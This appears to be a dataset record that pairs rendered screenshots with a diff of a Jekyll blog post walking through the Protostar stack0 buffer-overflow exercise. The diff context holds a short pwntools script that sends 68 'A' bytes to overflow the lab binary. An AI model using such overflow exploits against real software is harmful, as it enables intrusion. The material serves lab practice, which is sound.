

Before and after one commit to 90r1ll4/90r1ll4.github.io, a Jekyll site: the page built from _posts/2022-10-07-protostar-stack.md, in a window 1280 px wide and 900 px high, scrolled down 722 px. Shown: the part 155-455 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2022-10-07-protostar-stack.md
+++ b/_posts/2022-10-07-protostar-stack.md
@@ -29,7 +29,7 @@ int main(int argc, char **argv)
 this can be solved by normally overflowing the buffer with 68 A
 NOTE:  apply breakpoint before the cmp or test statement so that you can calculate offset without segmentation fault
 
-> from pwn import *
+> from pwn import * \n
 sh=process(’stack0’)
 sh.recvline(timeout=5)
 sh.send(b’A’*68)
```
